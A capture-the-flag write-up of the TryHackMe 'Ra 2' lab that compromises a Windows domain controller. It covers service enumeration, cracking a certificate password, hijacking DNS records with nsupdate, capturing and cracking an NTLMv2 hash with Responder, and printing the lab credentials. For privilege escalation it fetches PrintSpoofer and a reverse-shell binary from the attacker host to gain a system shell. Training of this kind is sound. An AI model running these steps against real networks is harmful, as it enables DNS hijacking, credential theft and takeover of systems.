THM: Ra 2
Enumeration
Rustscan & Nmap
We get the ports using rustscan & save it to a variable named ports
rustscan -g -a 10.10.194.219

Then, i use the ports variable in nmap.

The nmap results were pretty lengthy. Judging by the ports that are open like LDAP/S, DNS, etc I think it’s safe to assume this is a domain controller. If you’ve done Ra you’ll also notice the fire hostname looks familiar. We also find a few more hostnames:
fire.windcorp.thm
selfservice.windcorp.thm
selfservice.dev.windcorp.thm
Let’s add these to our /etc/hosts.
DNS Enumeration
dig windcorp.thm any @10.10.194.219

We indeed get our First flag here.
Important:
Allowing unsecured dynamic DNS updates gives any computer regardless of being joined to the domain or not, the ability to modify or create DNS records.
Nikito Enumeration
nikto --url http://10.10.194.219

Website Enumeration

The website has not special endpoints. However, there is a button pointint to “Selfservice”. Since we have already added the same to the hosts file we can open it for further enumeration.
Directory Enumeration
We can use gobuster with -k option to ignore the SSL errors [Else it won't run] or we can use dirsearch
Dirsearch has more cleaner output. Using Dirsearch we find the following end points.
dirsearch -u https://fire.windcorp.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x 400

The intresting Directory to notice is /powershell.
Upon opening the endpoint we end up with the following page.

we do not have a set of credentials as of now. We will return to this page when we have one.
Subdomain Enumeration
selfservice.windcorp.thm
When we open the subdomain using the link in the homepage, we are asked for password.

Intercepting the requests in burp we see the NTLMSSP challenge response. Decoding the base64 doesn’t leak anything we don’t already know like a new hostname.

selfservice.dev.windcorp.thm

Opening the dev subdomain brings us to the above page.
However, doing directory enumeration here, we find an intresting endpoint.
dirsearch -u https://selfservice.dev.windcorp.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x 400

We open the /backup directory to find certificate files.

I got both the files into my kali machine & started further enumeration on them.
Enumerating Aquired FIles
The web.config file has no important information.
Windows servers use .pfx files that contain a public key file and the associated private key file. Let’s use pfx2john.
Then, we will use john to crack it.
pfx2john cert.pfx > john_pfx_hash
john --wordlist=/usr/share/wordlists/rockyou.txt john_pfx_hash

We find the password for the cert.pfx file.
Now we can create a public and private key with openssl using cert.pfx and the password we cracked with john.
Private Key:
openssl pkcs12 -in cert.pfx -nocerts -out key.pem -nodes
Public Key:
openssl pkcs12 -in cert.pfx -out crt.pem -clcerts -nokeys

we got the certificates.
DNS Manipulation
Since we know we can update DNS records without our machine being joined to the domain we’ll use nsupdate.
Let’s send a request to delete the existing A record for selfservice.windcorp.thm and then send an update add request for a new A record to have selfservice resolve to our THM IP.
nsupdate
> server 10.10.194.219
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 1234 A 10.11.72.31
> send
> quit

Testing Our Changes in DNS
Let’s query the DNS server to see if selfservice.windcorp.thm will now resolve to our THM IP when a client requests a lookup.
dig selfservice.windcorp.thm @10.10.194.219

As we can see, the domain now points to our THM IP.
Next, we will host the certificate files using Responder & run it to catch any requests to selfservice.windcorp.thm
Responder

We first copy the certificates to the responders certificate directory.
We then edit the responder's config for HTTPS Server to include our certificate.
/etc/responder/Responder.conf
We will change the following under HTTPS Server section.

Then, we start the Responder on our THM Tunnel Interface & wait for any user making request to catch his/her response.
responder -I tun0
After a while, we find the NTLM hash of an user.

Next, we copy the entire NTLMv2 Hash to a file & crack the hash using john

john --wordlist=/usr/share/wordlists/rockyou.txt ntlmv2_hash
Credentials Found:
Username: edwardle
Password: !Angelus25!
Foothold
We will now use the Powershell directory we found to login using the above credentials. (Use Computer Name as FIRE)
https://fire.windcorp.thm/powershell

We find the user flag in edwardle user's desktop.
Privilege Escalation

I find that SeImpersonatePrivilege is active. Thus, we can use printspoofer.
wget http://10.11.72.31/PrintSpoofer64.exe -o PrintSpoofer64.exe
wget http://10.11.72.31/rshell.exe -o rshell.exe
Run The Printspoofer using
./PrintSpoofer64.exe -c rshell.exe

Start a listner & get the root flag in the administator's desktop.

Thanks !!